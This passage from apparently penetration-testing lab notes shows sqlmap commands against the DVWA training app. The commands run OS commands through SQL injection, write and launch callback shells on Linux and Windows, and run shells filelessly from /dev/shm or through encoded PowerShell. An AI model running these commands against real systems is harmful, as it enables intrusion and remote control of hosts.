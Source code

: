 - Execute any command

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-cmd="whoami"
```

#### 4.1.5.2 - Linux

- Execute the callback shell in disk

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-write="/path/to/shell.py" --file-dest="/tmp/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-cmd="python /tmp/shell.py"
```

- Execute the callback shell in memory (fileless memory)

1. Copy the file in `/dev/shm/` directory

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-write="/path/to/shell.py" --file-dest="/dev/shm/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-cmd="python /dev/shm/shell.py"
```

2. Execute a one liner

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-cmd="python -c <payload>"
```

#### 4.1.5.3 - Windows

TODO: Fill in this info to test a windows environment

- Execute the callback shell in disk

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-write="/path/to/shell.exe" --file-dest="C:/windows/temp/shell.exe"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-cmd="cmd /c C:/windows/temp/shell.exe"
```

- Execute the callback shell in memory (fileless memory) via powershell

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-cmd="powershell -e <base64_encoded>"
```

- Execute the callback shell in memory (fileless memory) via python
